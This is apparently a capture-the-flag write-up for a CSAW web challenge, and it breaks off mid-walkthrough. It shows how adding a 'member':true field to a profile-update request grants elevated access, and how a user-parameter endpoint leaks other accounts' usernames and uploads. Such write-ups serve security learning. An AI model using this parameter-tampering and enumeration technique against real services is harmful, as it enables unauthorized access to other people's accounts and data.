


Start by checking the website:
http://web.csaw.io:14180/web/home

This displays a simple registration form. Running it through burp revealed:
```
/identify/register:

{"username":"test1@test.com","password":"test","first_name":"test","last_name":"test"}
```

And trying to update a profile with a new first name showed:
```
/identify/update:
{"username":"test1@test.com","first_name":"test2","last_name":"test"}
```

So, with this, I could force my profile to be a member by manipulating the update request:
```
{"username":"test1@test.com","first_name":"test2","last_name":"test","member":true}
```

With a member profile I got access to a new page with a quiz. Loading it revealed:
http://web.csaw.io:14180/identity/images?user=%22otacon@protonmail.com%22
which leaks usernames and their uploads

The description asked to get information on solidsnake and otacon, so trying:
http://web.csaw.io:14180/identity/images?user=%22solidsnake@protonmail.com%22
reveals 


Login in with solidsnake:
